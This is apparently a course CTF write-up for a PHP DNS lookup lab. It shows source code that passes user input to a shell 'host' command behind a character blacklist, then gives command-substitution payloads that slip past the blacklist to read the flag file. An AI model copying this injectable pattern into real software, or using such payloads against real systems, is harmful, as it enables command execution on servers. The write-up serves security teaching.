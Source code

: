 ```yaml
---
title: Simple Web 0x10(Lab - DNS Lookup Tool | WAF)
tags: [NTUSTWS, CTF, Web]

category: "Security/Course/NTUST WS/Command Injection"
---
```


# Simple Web 0x10(Lab - DNS Lookup Tool | WAF)
<!-- more -->
###### tags: `NTUSTWS` `CTF` `Web`

## Background
[2022/03/30 網頁安全](https://youtu.be/7b8uMzpCfug?t=3612)
[Command injection](https://lab.feifei.tw/practice/ci/l1.php)

## Source code
:::spoiler code
```php=
 <?php
isset($_GET['source']) and die(show_source(__FILE__, true));
?>

<!DOCTYPE html>
<html lang="en">

<head>
    <meta charset="UTF-8">
    <meta http-equiv="X-UA-Compatible" content="IE=edge">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>DNS Lookup Tool | WAF</title>
    <link rel="stylesheet" href="https://cdn.jsdelivr.net/npm/bulma@0.9.3/css/bulma.min.css">
</head>

<body>
    <section class="section">
        <div class="container">
            <div class="column is-6 is-offset-3 has-text-centered">
                <div class="box">
                    <h1 class="title">DNS Lookup Tool 🔍 | WAF Edition</h1>
                    <form method="POST">
                        <div class="field">
                            <div class="control">
                                <input class="input" type="text" name="name" placeholder="example.com" id="hostname" value="<?= $_POST['name'] ?? '' ?>">
                            </div>
                        </div>
                        <button class="button is-block is-info is-fullwidth">
                            Lookup!
                        </button>
                    </form>
                    <br>
                    <?php if (isset($_POST['name'])) : ?>
                        <section class="has-text-left">
                            <p>Lookup result:</p>
                            <pre>
                            <?php
                            $blacklist = ['|', '&', ';', '>', '<', "\n", 'flag'];
                            $is_input_safe = true;
                            foreach ($blacklist as $bad_word)
                                if (strstr($_POST['name'], $bad_word) !== false) $is_input_safe = false;

                            if ($is_input_safe)
                                system("host '" . $_POST['name'] . "';");
                            else
                                echo "HACKER!!!";
                            ?>
                            </pre>
                        </section>
                    <?php endif; ?>
                    <hr>
                    <a href="/?source">Source Code</a>
                </div>
            </div>
        </div>
    </section>
</body>

</html> 
```
:::
It set some protection such as blacklist.

## Exploit
Use <font color="FF0000">**`$`** or **\`**</font> string to bypass blacklist
Payload: 
`'$(cat /fla*)'`
`'`cat /fl\*g\*`'`


Flag: FLAG{Y0U_$(Byp4ssed)\_th3\_\`waf\`}

## Reference